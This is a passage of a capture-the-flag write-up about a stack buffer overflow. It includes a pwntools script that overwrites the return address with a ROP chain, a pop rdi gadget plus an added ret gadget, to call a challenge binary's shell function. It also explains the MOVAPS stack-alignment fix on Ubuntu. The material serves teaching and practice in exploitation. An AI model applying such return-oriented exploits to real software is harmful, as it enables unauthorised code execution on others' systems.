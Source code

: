 Next, the instruction at `rip` (Address of `shell`) is executed. Because `rdi` is `123456`, this is equivalent to `shell(123456)` which allows us to get a shell.

## Payload

```python
from pwn import *

p = process("./chal")
e = ELF("./chal")
rop = p64(0x000000000040126b)
p.sendline(b"a"*120+rop+p64(123456)+p64(e.symbols["shell"]))
p.interactive()
```

## Stack alignment?

The payload above works in kali but not on Ubuntu, because of the [MOVAPS issue](https://www.cameronwickes.com/stack-alignment-ubuntu-18-04-movaps/). On Ubuntu 18.04, the MOVAPS (move aligned packed single precision) instruction is used to move data (4 32 bit single precision floats / 16 bytes).

As its name indicates:

> When the source or destination operand is a memory operand, the operand must be aligned on a 16-byte boundary or a general-protection exception (#GP) will be generated.

Our stack is not aligned on 16 bytes, thus an exception is generated. 

We can resolve this issue by adding another gadget: `0x0000000000401016: ret; `. The starting stack now looks like this:

| Address  | Name        | Value                             |
| -------- | ----------- | --------------------------------- |
| `rbp+32` | -           | Address of `shell`                |
| `rbp+24` | -           | Address of `ret;` gadget          |
| `rbp+16` | -           | 123456                            |
| `rbp+8`  | `rip`/`rsp` | Address of `pop rdi; ret;` gadget |
| `rbp`    | `rbp`       | Address of `rbp`                  |

Now, our stack is aligned to 16 bytes, so the exploit will work. You can trace through the stack for each instruction to verify that it works. In the end, the stack should look like this:

| Address  | Name  | Value                   |
| -------- | ----- | ----------------------- |
| `rbp+32` | -     | Address of `shell`      |
| `rbp+24` | -     | Address of `ret` gadget |
| `rbp+16` | -     | 123456                  |
| `rbp+8`  | `rip` | Address of `shell`      |
| `rbp`    | `rbp` | Address of `rbp`        |
| `rdi`    |       | 123456                  |

